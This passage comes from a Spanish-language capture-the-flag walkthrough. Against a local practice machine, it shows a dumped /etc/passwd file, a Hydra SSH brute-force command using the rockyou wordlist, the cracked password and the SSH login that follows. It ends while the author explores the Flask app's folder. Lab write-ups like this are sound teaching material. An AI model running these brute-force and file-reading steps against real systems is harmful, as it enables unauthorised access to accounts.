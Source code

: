 ```
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
cachopin:x:1001:1001::/home/cachopin:/bin/bash
```
Tal y como se puede ver, parece que solo hay un usuario llamado "cachopin", justo lo que nos aparecio al principio cuando escribimos "whoami".

Vale, perfecto. Es momento de usar HYDRA para ver si podemos conseguir la contraseña y acceder a la maquina mediante SSH. Para ello escribimos:
```
hydra -l cachopin -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Tras un rato vemos que la contraseña para el usuario "cachopin" es "simple", tal y como se ve a continuacion:
```
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 14344234 to do in 1440:12h, 15 active
[22][ssh] host: 172.17.0.2   login: cachopin   password: simple  <== Contraseña
1 of 1 target successfully completed, 1 valid password found
```
Es momento ahora de acceder via SSH:
```
ssh cachopin@172.17.0.2
```
Decimos "yes" a las fingerprints y etemos la contraseña "simple" obtenida con HYDRA.

Con esto, ya estariamos dentro:
```
cachopin@c7a551002841:~$ whoami
cachopin

cachopin@c7a551002841:~$
```
Bien vamos a probar a hacer una escalada de privilegios con "sudo -l", "suid", etc.. pero tras probar, vemos que no hay forma (o al menos, eso parece).

Es momento de intentar navegar por los directorios para ver si podemos conseguir mas informacion o alguna pista que nos pueda ayudar con la escalada.

Haciendo un "ls -la", vemos que hay un archivo llamado "entrypoint.sh", asi que le hacemos un "cat" para ver lo que contiene.
```
cachopin@c7a551002841:~$ cat entrypoint.sh 
#!/bin/bash

# Inicia el servicio SSH como root
service ssh start

# Cambia al usuario cachopin para ejecutar la aplicación Flask
exec su - cachopin -c "/home/cachopin/venv/bin/python /home/cachopin/app/app.py"
```
Bueno, nos da informacion y nos dice que que en la carpeta "/home/cachopin/app/" hay un archivo llamado "app.py" asi que vamos a dicha carpeta, hacemos un "ls" y vemos que hay 3 directorios, aparte del archivo "app.py" que estabamos buscando.
